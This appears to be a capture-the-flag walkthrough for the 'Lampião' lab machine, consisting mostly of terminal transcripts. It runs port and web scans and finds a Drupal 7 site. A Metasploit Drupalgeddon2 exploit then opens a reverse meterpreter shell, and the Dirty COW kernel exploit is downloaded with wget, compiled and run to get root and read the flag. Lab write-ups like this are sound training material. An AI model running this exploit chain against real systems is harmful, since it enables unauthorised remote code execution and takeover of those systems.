





# lampiao
## Information Collect
### Full Ports Scanning
```
└─$ sudo nmap -p- 192.168.146.61           
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-22 10:29 HKT
Nmap scan report for 192.168.146.61
Host is up (0.00023s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1898/tcp open  cymtec-port
MAC Address: 00:0C:29:9D:3D:A7 (VMware)

```
### Specify Scanning
```
└─$ sudo nmap -p22,80,1898 -sV -A 192.168.146.61
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-22 10:30 HKT
Nmap scan report for 192.168.146.61
Host is up (0.00028s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=7/22%Time=62DA0BB1%P=x86_64-pc-linux-gnu%r(NULL
SF:,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\x
SF:20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x20
SF:__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`\
SF:x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_\
SF:|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\x
SF:20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\|
SF:\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\x
SF:20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n\
SF:|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20_
SF:_\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20\
SF:x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x20
SF:_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\x
SF:20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x2
SF:0\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\|
SF:_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\__
SF:,_\|_\|\x20\|_\|");
MAC Address: 00:0C:29:9D:3D:A7 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.28 ms 192.168.146.61

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.76 seconds

```
### Web Information Collect
```
└─$ nikto -h http://192.168.146.61
- Nikto v2.1.6
---------------------------------------------------------------------------
+ No web server found on 192.168.146.61:80
---------------------------------------------------------------------------
+ 0 host(s) tested

─$ nikto -h http://192.168.146.61:1898
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.61
+ Target Hostname:    192.168.146.61
+ Target Port:        1898
+ Start Time:         2022-07-22 10:32:52 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.24
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-generator' found, with contents: Drupal 7 (http://drupal.org)
+ OSVDB-3268: /scripts/: Directory indexing found.
+ OSVDB-3268: /includes/: Directory indexing found.
+ Entry '/includes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /misc/: Directory indexing found.
+ Entry '/misc/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /modules/: Directory indexing found.
+ Entry '/modules/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /profiles/: Directory indexing found.
+ Entry '/profiles/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/scripts/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /themes/: Directory indexing found.
+ Entry '/themes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALL.mysql.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALL.pgsql.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALL.sqlite.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/install.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/LICENSE.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/MAINTAINERS.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/UPGRADE.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/xmlrpc.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=filter/tips/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/password/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/register/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/login/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 68 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-3092: /web.config: ASP config file is accessible.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /misc/: This might be interesting...
+ OSVDB-3092: /UPGRADE.txt: Default file found.
+ OSVDB-3092: /install.php: Drupal install.php file found.
+ OSVDB-3092: /install.php: install.php file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3092: /xmlrpc.php: xmlrpc.php was found.
+ OSVDB-3233: /INSTALL.mysql.txt: Drupal installation file found.
+ OSVDB-3233: /INSTALL.pgsql.txt: Drupal installation file found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3268: /sites/: Directory indexing found.
+ 8796 requests: 0 error(s) and 43 item(s) reported on remote host
+ End Time:           2022-07-22 10:33:50 (GMT8) (58 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
─$ cat diresarch_res.txt| grep "200\|301"
[10:43:02] 200 -  108KB - /CHANGELOG.txt
[10:43:02] 200 -    1KB - /COPYRIGHT.txt
[10:43:02] 200 -    2KB - /INSTALL.mysql.txt
[10:43:02] 200 -    2KB - /INSTALL.pgsql.txt
[10:43:02] 200 -   18KB - /INSTALL.txt
[10:43:02] 200 -   18KB - /LICENSE.txt
[10:43:02] 200 -    9KB - /MAINTAINERS.txt
[10:43:02] 200 -    5KB - /README.txt
[10:43:02] 200 -   10KB - /UPGRADE.txt
[10:43:15] 301 -  325B  - /includes  ->  http://192.168.146.61:1898/includes/
[10:43:15] 200 -   10KB - /includes/
[10:43:16] 200 -   11KB - /index.php
[10:43:17] 200 -    3KB - /install.php
[10:43:18] 200 -  132KB - /includes/bootstrap.inc
[10:43:20] 301 -  321B  - /misc  ->  http://192.168.146.61:1898/misc/
[10:43:20] 301 -  324B  - /modules  ->  http://192.168.146.61:1898/modules/
[10:43:21] 200 -    9KB - /modules/
[10:43:24] 301 -  325B  - /profiles  ->  http://192.168.146.61:1898/profiles/
[10:43:24] 200 -  743B  - /profiles/standard/standard.info
[10:43:24] 200 -  278B  - /profiles/testing/testing.info
[10:43:24] 200 -  271B  - /profiles/minimal/minimal.info
[10:43:25] 200 -    2KB - /robots.txt
[10:43:26] 200 -    3KB - /scripts/
[10:43:26] 301 -  324B  - /scripts  ->  http://192.168.146.61:1898/scripts/
[10:43:27] 301 -  322B  - /sites  ->  http://192.168.146.61:1898/sites/
[10:43:27] 200 -  151B  - /sites/all/libraries/README.txt
[10:43:27] 200 -    0B  - /sites/example.sites.php
[10:43:27] 200 -  904B  - /sites/README.txt
[10:43:27] 200 - 1020B  - /sites/all/themes/README.txt
[10:43:27] 200 -    1KB - /sites/all/modules/README.txt
[10:43:29] 301 -  323B  - /themes  ->  http://192.168.146.61:1898/themes/
[10:43:29] 200 -    2KB - /themes/
[10:43:31] 200 -    2KB - /web.config
[10:43:32] 200 -   42B  - /xmlrpc.php

```
### Web Page Information Collect

base Drupal

##### Latest version: Drupal 7.54
### Search Vulnerability
```
┌──(aacai㉿kali)-[~/Desktop/gooann/Week1/lampiao]
└─$ searchsploit Drupal 7.x                     
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal 7.x Module Services - Remote Code Execution                                                                              | php/webapps/41564.php
Drupal < 7.34 - Denial of Service                                                                                               | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                        | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                                                     | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                             | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                         | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                                | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                           | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                                  | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                              | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                               | php/webapps/44501.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                                          | php/webapps/25493.txt
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                                   | php/remote/40144.php
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                               | php/remote/40130.rb
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

└─$ searchsploit -m php/webapps/41564.php     
  Exploit: Drupal 7.x Module Services - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/41564
     Path: /usr/share/exploitdb/exploits/php/webapps/41564.php
File Type: ASCII text, with CRLF line terminators

Copied to: /home/aacai/Desktop/gooann/Week1/lampiao/41564.php


                                                                                                                                                                  
┌──(aacai㉿kali)-[~/Desktop/gooann/Week1/lampiao]
└─$ ls
41564.php  diresarch_res.txt

```

##### But I can't found this Directory


### use Metasploit
```
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.146.63   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.146.61
RHOSTS => 192.168.146.61
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 1898
RPORT => 1898
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run
[*] Started reverse TCP handler on 192.168.146.63:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 192.168.146.61
[*] Meterpreter session 1 opened (192.168.146.63:4444 -> 192.168.146.61:56170) at 2022-07-22 11:17:04 +0800
meterpreter > getuid
Server username: www-data (33)
meterpreter > 

```
### Privilege Escalation 

```
meterpreter > upload '/home/aacai/Desktop/Script/linpeas.sh' 
[*] uploading  : /home/aacai/Desktop/Script/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.76 KiB (0.0%): /home/aacai/Desktop/Script/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/aacai/Desktop/Script/linpeas.sh -> linpeas.sh
meterpreter > shell
Process 4390 created.
Channel 2 created.
chmod 755 linpeas.sh
/usr/bin/script -qc /bin/bash /dev/null
www-data@lampiao:/var/www/html$ ./linpeas.sh

```
Search vulnerable Information 
```
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```
Privilege Escalation with dirtycow
```
www-data@lampiao:/tmp$ wget https://www.exploit-db.com/download/40847
--2022-07-22 00:38:53--  https://www.exploit-db.com/download/40847
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]
Saving to: '40847'

    [ <=>                                   ] 10,531      --.-K/s   in 0s      

2022-07-22 00:38:55 (126 MB/s) - '40847' saved [10531]
www-data@lampiao:/tmp$ mv 40847 dcow.cpp
www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
www-data@lampiao:/tmp$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)

```
use ssh to login root
```
└─$ ssh root@192.168.146.61                            
The authenticity of host '192.168.146.61 (192.168.146.61)' can't be established.
ECDSA key fingerprint is SHA256:64C0fMfgIRp/7K8EpiEiirq/SrPByxrzXzn7bLIqxbU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.146.61' (ECDSA) to the list of known hosts.
root@192.168.146.61's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Jul 21 23:28:17 BRT 2022

  System load: 0.08              Memory usage: 16%   Processes:       204
  Usage of /:  7.5% of 19.07GB   Swap usage:   0%    Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Apr 20 14:46:57 2018 from 192.168.108.1
root@lampiao:~# ls
flag.txt
root@lampiao:~# cat flag.txt 
9740616875908d91ddcdaa8aea3af366
root@lampiao:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:9d:3d:a7 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.61/24 brd 192.168.146.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe9d:3da7/64 scope link 
       valid_lft forever preferred_lft forever
root@lampiao:~# whoami
root
root@lampiao:~# id
uid=0(root) gid=0(root) groups=0(root)
root@lampiao:~# 
```



